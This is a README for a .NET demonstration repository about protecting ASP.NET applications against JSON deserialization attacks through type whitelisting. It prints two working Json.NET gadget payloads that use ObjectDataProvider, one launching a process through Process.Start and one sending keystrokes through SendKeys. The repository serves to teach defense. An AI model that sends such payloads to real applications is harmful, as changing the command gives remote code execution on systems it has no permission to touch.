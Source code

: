 # JsonDeserialization
Repository which shows how to protect against JSON deserialization attacks in .NET based web applications by whitelisting the types of models that will be binded and using type restrictions.

## Credit
This repository was forked from https://github.com/rishabhupreti/JsonDeserializationDotNet and modified to provide more examples.

## Prerequisites
* Visual Studio 2019 or greater
* .NET Framework 4.7.2

## How do I run this project?
Clone this project on your local machine and run the application through IIS Express.

The project is an ASP.NET MVC and Web API web application which has a Home controller (MVC) and Deserialize controller (Web API).

## Payloads used for attacks
Open Notepad
```
{
    '$type': 'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName': 'Start',
    'MethodParameters':
    {
        '$type': 'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values': [ 'notepad' ]
    },
    'ObjectInstance':
    {
        '$type': 'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'
    }
}
```

Type lorem ipsum text
```
{
    '$type': 'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName': 'SendWait',
    'MethodParameters':
    {
        '$type': 'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values': [ 'Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.' ]
    },
    'ObjectInstance':
    {
        '$type': 'System.Windows.Forms.SendKeys, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'
    }
}
